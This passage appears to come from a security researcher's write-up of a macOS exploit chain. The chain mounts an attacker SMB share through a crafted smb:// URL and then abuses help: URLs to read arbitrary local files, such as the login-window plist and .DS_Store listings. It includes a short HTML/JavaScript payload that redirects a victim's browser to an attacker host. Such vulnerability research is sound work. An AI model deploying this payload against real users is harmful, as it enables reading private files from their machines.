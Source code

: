 My idea was to use a `smb://user:passwd@host/path` url to open Finder, then this location will be mounted on `/Volumes/path`. Samba is just one of the supported protocols, others like `afp://` and `cifs://` should be working as well.

During my test, if explicitly given username and password, Finder doesn't ask for confirmation at all. But I seemed to be fooled by my test environment. It actually asks. This resulted in first two failed attempts during my demostration, until I removed this part from my exploit.

If worked, my exploit would redirect to `help:/Volumes/Label/stage3` which is able to read files from arbitrary path:

```html
<link rel="stylesheet" type="text/css" href="/static/style.css">
<p>Loading...</p>
<script type="text/javascript">
setInterval(() => {location = 'help:/Volumes/FileStage/reader.html'}, 2000)
location = 'smb://bob:bob@{{ ip }}/FileStage'
</script>
```

Furthermore, to get the active user name, I read the file `/Library/Preferences/com.apple.loginwindow.plist` and parse its `lastUserName` key. To (partially) list a directory (e.g. `~/Documents`), I can parse `.DS_Store` to get some of the filenames.

### References

1. [Issue 1040: macOS: HelpViewer XSS leads to arbitrary file execution and arbitrary file read](https://bugs.chromium.org/p/project-zero/issues/detail?id=1040)
2. [A medley of modern web browser exploits](https://twitter.com/vangelis_at_poc/status/852763661168857088)
3. [How to Register Your Help Book](https://developer.apple.com/library/archive/documentation/Carbon/Conceptual/ProvidingUserAssitAppleHelp/registering_help/registering_help.html#//apple_ref/doc/uid/TP30000903-CH207-BHAHHAAE)
4. [Apple web server notifications](https://support.apple.com/en-is/HT201536)
5. [Parallels for Mac: system_profiler output leak and launching of arbitrary apps from the web](https://github.com/Metnew/abusing-helpviewer-parallels-for-mac)
